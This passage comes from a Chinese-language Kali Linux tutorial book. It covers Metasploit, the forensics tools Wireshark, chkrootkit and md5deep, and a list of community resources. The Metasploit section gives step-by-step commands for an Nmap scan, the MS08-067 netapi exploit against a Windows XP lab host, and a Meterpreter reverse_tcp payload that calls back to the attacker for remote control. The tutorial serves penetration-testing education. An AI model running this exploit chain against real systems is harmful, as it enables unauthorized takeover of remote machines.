*   **打包工具**：Metasploit 附带了几个方便的工具，可以进一步增强渗透测试体验。这些附加包可以创建独立的有效负载，并使用不同的算法、数据库连接、GUI 界面等对有效负载进行加密。
*   **第三方插件**：Metasploit 可以与多个第三方插件集成，并利用其结果构建自己的攻击结构。各种工具（如 Nmap、Nessus 和 NeXpose）的结果可以直接在框架内使用。
*   **开源**：Metasploit 的免费版本是开源的，因此可以根据需要进行完全扩展和修改。

通过导航到**应用程序****Kali Linux****10 大安全工具****Metasploit 框架**即可启动 Metasploit。

加载控制台后，您将注意到`msf>`提示，这表明 Metasploit 现在可以接收您的命令。

要使用 Metasploit 开始渗透测试，我们需要一个目标系统。让我们快速启动 Nmap 扫描，找出网络中的实时系统。我们将使用以下命令启动 Nmap：

```
msf > nmap 192.168.56.1/24

```



在前面的屏幕截图中，您可以看到 Nmap 检测到四个不同的目标系统。让我们以 IP 为 192.168.56.102 的 Windows XP 系统为目标。既然 Nmap 已经发现我们的目标系统使用的是 Windows XP 操作系统，我们的下一个目标将是识别 Windows XP 的远程攻击。幸运的是，我们几乎没有稳定的漏洞。让我们在 Metasploit 存储库中搜索`netapi`漏洞。

```
msf > search netapi

```



让我们选择`exploit`模块中的`ms08_067_netapi`模块，其排名为`great`。要激活此模块，请在控制台上传递以下命令：

```
msf > use exploit/windows/smb/ms08_067_netapi

```

这会将控制台提示更改为`exploit`模块，表示您的`exploit`模块已全部设置为执行。

现在，我们的下一步是将所需的参数值传递给`exploit`模块。`show options`命令显示所需参数。

这里需要传递`RHOST`值。`RHOST`是我们要瞄准的远程主机。

```
msf exploit(ms08_067_netapi) > set RHOST 192.168.56.102

```

设置`exploit`模块后，下一步是选择`PAYLOAD`。让我们按如下方式使用流量计有效载荷：

```
msf exploit(ms08_067_netapi) >set PAYLOAD windows/meterpreter/reverse_tcp

```

一旦选择了`meterpreter`有效载荷，我们现在需要传递有效载荷参数值。再次传递`show options`命令以查看所需参数。传递 LHOST IP，这是攻击机器的 IP。

现在，我们都已准备好启动漏洞利用。传递`exploit`命令，将`exploit`模块发送到目标机器。


如果攻击成功，您会注意到控制台提示变为`meterpreter`，表示我们的有效负载在远程机器上成功执行，现在我们可以通过攻击机器控制它。您可能已经注意到 Metasploit 通过使用`exploit`模块完全接管远程目标是多么容易。Metasploit 是对远程目标执行渗透测试的非常强大的工具。这是一个关于 Metasploit 的快速入门教程。

让我们转到下一节，在那里我们将阅读 Kali Linux 中的各种取证工具。

## 使用 Kali Linux 进行网络取证

**网络取证**涉及从计算机系统或任何数字存储媒体分析、报告和恢复网络信息。取证包括对事件的详细调查以及收集相关信息。Kali 提供了一系列工具，可以帮助进行有效的法医分析。法医分析通常涉及调查不同方面，这需要不同的工具。与利用框架不同，取证通常依赖于多种工具。让我们在这里详细介绍一些主要的法医工具。

### Wireshark 网络分析

Wireshark 是一种开源的网络数据包分析工具，类似于**tcpdump**，它捕获流经网络的数据包，并以可理解的形式呈现。Wireshark 可以被视为瑞士军刀，因为它可以在不同的情况下使用，例如网络故障排除、安全操作和学习协议内部。这是一个可以轻松完成所有任务的工具。

与 Wireshark 合作的一些重要好处如下：

*   多协议支持
*   用户友好的界面
*   实时交通分析
*   开源

要开始在 Kali Linux 中使用 Wireshark，请导航到**应用程序****Kali Linux****十大安全工具****Wireshark**。

加载 GUI 后，必须选择要开始使用的界面。左下面板显示了各种可用接口。选择一个界面，点击**开始**开始。您将注意到 GUI 开始显示在所选界面上捕获的不同数据包。



您会注意到 Wireshark GUI 分为三个不同的部分。**捕获**面板显示数据包的实时捕获。**数据包详细信息**面板在捕获面板中显示所选数据包的信息。**数据包字节**面板以转储或实际格式表示来自数据包详细信息面板的信息。它显示了流的字节序列。您可以从菜单选项中选择不同的操作，以最大限度地提高捕获性能。

### Rootkit 使用 chkrootkit 扫描取证

rootkit 是恶意程序，设计用于隐藏恶意进程，使其不被检测，并允许继续（通常是远程）访问计算机系统。Kali Linux 提供了一个名为`chkrootkit`的特殊 rootkit 取证工具。导航至**Kali Linux****取证****数字反取证****chkrootkit**即可启动。

加载终端后，将目录更改为`/usr/sbin`并启动`chkrootkit`。


一旦`chkrootkit`启动，它将开始扫描系统中的任何恶意程序。`chkrootkit`是一个非常方便的工具，可以快速识别系统上安装的任何可疑程序。

### 使用 md5deep 进行文件分析

md5deep 是一个开源工具，用于计算任意数量文件的哈希或消息摘要。它还可以通过目录结构递归生成目录中每个文件的签名。生成文件的 MD5 签名有助于法医分析员了解文件内容是否已更改。将原始文件的 MD5 与可能修改的文件的 MD5 进行比较；如果发现不匹配，则表明文件已被修改。

md5deep 的使用相当简单。可以从**应用程序****Kali Linux****取证****取证哈希工具****md5deep**启动。


要为目录生成文件签名列表，请使用以下命令：

```
root@kali:~#md5deep –r /darklord > darklordmd5.sum

```

要匹配文件完整性，请执行以下命令：

```
root@kali:~#md5deep –rx darklordmd5.sum

```

通过这种方式，我们可以分析文件的完整性，以确保是否进行了任何修改。

# 你应该了解的人和地方

如果您需要 Kali Linux 的帮助，这里有一些人和地方将证明是非常宝贵的。

## 官方网站

以下是您应该访问的官方网站：

*   首页：[http://www.kali.org](http://www.kali.org)
*   手册和文件：[http://docs.kali.org](http://docs.kali.org)
*   博客：[http://www.kali.org/blog/](http://www.kali.org/blog/)
*   源代码：[http://git.kali.org/gitweb/](http://git.kali.org/gitweb/)

## 文章和教程

以下是您应该阅读的文章，以获得有关 Kali Linux 的更多知识：

*   回溯重生-Kali：[www.advority-security.com/offsec/Backtrack-reborn-Kali-linux/](http://www.offensive-security.com/offsec/backtrack-reborn-kali-linux/)
*   使用 Kali linux 轻松访问无线网络：[https://community.rapid7.com/community/infosec/blog/2013/05/22/easily-assessing-wireless-networks-with-kali-linux](https://community.rapid7.com/community/infosec/blog/2013/05/22/%E2%80%A8easily-assessing-wireless-networks-with-kali-linux)
*   Kali Linux 破解企业级密码：[http://lifehacker.com/5990375/kali-linux-cracks-passwords-on-the-enterprise-level](http://lifehacker.com/5990375/kali-linux-cracks-passwords-on-the-enterprise-level)
*   在 Kali Linux 上安装 Vmware 工具：[http://www.drchaos.com/installing-vmware-tools-on-kali-linux/](http://www.drchaos.com/installing-vmware-tools-on-kali-linux/)

## 社区

您可以通过以下网址访问 Kali Linux 社区：

*   官方邮寄名单：`<[info@kali.org](mailto:info@kali.org)>`
*   官方论坛：[http://forums.kali.org](http://forums.kali.org)
*   非正式论坛：[http://www.kalilinux.net](http://www.kalilinux.net)
*   IRC:`irc.freenode.net #kali-linux`

## 博客

以下是您应该通读的一些博客和视频教程：

*   *Vivek Ramachandran*：[通过互动视频学习安全提示 http://www.securitytube.net](http://www.securitytube.net)
*   Metasploit Released，一个由 Kali 创始人发起的项目：[http://www.offensive-security.com/metasploit-unleashed/Main_Page](http://www.offensive-security.com/metasploit-unleashed/Main_Page)
*   网络武器关于Kali的视频教程：[http://cyberarms.wordpress.com/2013/07/01/video-training-kali-linux-assuring-security-by-penetration-testing/](http://cyberarms.wordpress.com/2013/07/01/video-training-kali-linux-assuring-security-by-penetration-testing/)
*   使用 Armitage 进行网络攻击管理：[http://www.fastandeasyhacking.com/](http://www.fastandeasyhacking.com/)

## 推特

您可以按照以下步骤操作：

*   推特上的 Kali Linux:[https://twitter.com/kalilinux](https://twitter.com/kalilinux)
*   MalwareMustDie，Twitter 上的 NPO:[https://twitter.com/malwaremustdie](https://twitter.com/malwaremustdie)
*   关注推特上的*德文·卡恩斯*：[https://twitter.com/dookie2000ca](https://twitter.com/dookie2000ca)
*   在推特上关注*阿比纳夫·辛格*：[https://twitter.com/abhinavbom](https://twitter.com/abhinavbom)
*   在 Twitter 上关注*Ken Soona*：[https://twitter.com/attackvector#shamelessplug](https://twitter.com/attackvector#shamelessplug)